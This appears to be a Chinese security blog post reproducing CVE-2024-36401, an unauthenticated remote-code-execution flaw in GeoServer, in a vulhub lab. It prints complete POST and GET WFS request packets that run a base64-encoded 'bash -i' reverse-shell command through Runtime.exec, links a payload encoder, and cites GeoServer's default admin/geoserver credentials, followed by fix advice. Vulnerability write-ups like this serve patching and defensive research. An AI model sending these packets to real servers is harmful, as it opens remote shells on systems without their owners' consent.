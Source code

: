 #  CVE-2024-36401：GeoServer未授权RCE漏洞   
原创 七安  Timeline Sec   2024-08-02 18:04  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：七安@Timeline Sec 本文字数：2704阅读时长：2～3min 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
GeoServer 是一个开源的地理信息服务器，用于发布和共享地理空间数据。它是由 GeoTools 库驱动的，GeoTools 是一个用于处理地理数据的 Java 库。GeoServer 允许用户从各种数据源（如 Shapefile、PostGIS、Oracle Spatial、ArcSDE 等）发布地理空间数据，并通过标准的 OGC（Open Geospatial Consortium）协议（如 WMS、WFS、WCS 等）进行访问。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-36401**  
  
GeoServer 调用的 GeoTools 库 API 以一种不安全地将它们传递给 commons-jxpath 库的方式评估要素类型的属性/属性名称，该库在评估 XPath 表达式时可以执行任意代码，  
导致未授权的攻击者能够实现RCE。  
## 0x03 影响版本  
  
GeoServer <=  2.25.1，2.24.3，2.23.5  
## 0x04 环境搭建  
  
环境搭建比较简单，可以使用 P 牛在 vulhub 提供的环境, clone 仓库后使用命令  
```
docker compose up -d

```  
  
启动环境，环境启动后访问 http://ip:8080/geoserver  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsh5mQaYDdZIeekDZNazjZJicmVA7AWR8WhWKBmIEuvgBLT9JafFLGmajUMhtH3Ficx1XCsllVfSI8yA/640?wx_fmt=png&from=appmsg "")  
  
在进行漏洞复现时需要注意：typeNames必须存在，可以在Web页面/geoserver/web/wicket/bookmarkable/org.geoserver.web.demo.MapPreviewPage?3&filter=false中找到当前服务器中的所有Types  
  
如下图所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsh5mQaYDdZIeekDZNazjZJicsiapuibJricw5R5VrHjzADzCV8QjBNWvaT0Pp1jickcoNvCVcx69iamGOKQ/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
首先使用 Python 开启一个 Web 服务，方便验证漏洞是否存在  
  
python3 -m http.server 8890  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgILic6iaIVialXCeeHjgDdQGhQtUH5xhw3AJTxgXib1yQP5hFLFoVDibwNF0dUTVx4abBv8ia4d1LGicZkQ/640?wx_fmt=png&from=appmsg "")  
  
  
构造请求如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgILic6iaIVialXCeeHjgDdQGhRFB0HlGEt70ja6PhPQQE6jicv8iabSSLQGicXib3KFW0Ou47CF4icBgNNrg/640?wx_fmt=png&from=appmsg "")  
  
  
查看 Web 服务中是否收到请求  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgILic6iaIVialXCeeHjgDdQGhVC87dfglSgvYsXj80bdW0aiaibqIj95tTIqgDLPl0S9Hycc2eayh0h0Q/640?wx_fmt=png&from=appmsg "")  
  
  
成功收到请求，证明漏洞存在  
  
**进行RCE：**  
  
首先在攻击机上开启监听：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsh5mQaYDdZIeekDZNazjZJicSr8csrlfhJw3ZmQCttyByH1uoqVXbA79IlAnt278kjMk4BiaJEuPEMA/640?wx_fmt=png&from=appmsg "")  
  
构造恶意请求，  
反弹shell命令  
  
需要编码：  
https://tools.zjun.info/runtime-exec-payloads/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsh5mQaYDdZIeekDZNazjZJicr5LgawqMsQSoZHbBuiaLN0yoouR3fN69GzukPERU5cJBKUDqlP2PbLQ/640?wx_fmt=png&from=appmsg "")  
  
成功收到 shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsh5mQaYDdZIeekDZNazjZJicm5NuPesQOzaTEbKzZcWGZibGVsib5rHVAjzf3eCfq0WRqGqktbicJUThQ/640?wx_fmt=png&from=appmsg "")  
  
完整数据包如下：  
```
POST /geoserver/wfs HTTP/1.1
Host: host:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 379

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,base64(shell)}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>

```  
  
CVE-2024-36401 漏洞的验证方式有两种，一种是上面的 POST 方式，一种是 GET 方式，GET 验证方式的数据包如下：  
```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'bash%20-c%20%7Becho%2Curl(base64(shell))7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D') HTTP/1.1
Host: host:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0

```  
  
结果：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsh5mQaYDdZIeekDZNazjZJicuMSIw6X6W7ypgjkhCbRz1EK04yzibxahXahMQmy4ZbAH2JDgVFCAPRA/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
1. 删除 WEB-INF/lib/gt-complex-x.y.jar，依赖 gt-complex-x.y.jar 的功能会受影响  
  
2. 更新到新版本  
## 参考链接  
  
https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2024-36401  
  
https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv  
## 历史漏洞  
  
默认账号密码admin/geoserverCVE-2024-36401CVE-2023-43795CVE-2023-25157CVE-2022-24816CVE-2021-40822  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】  
获取TimelineSec官方培训课程详情  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就点个赞吧！  
  
想看什么欢迎评论区留言～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  

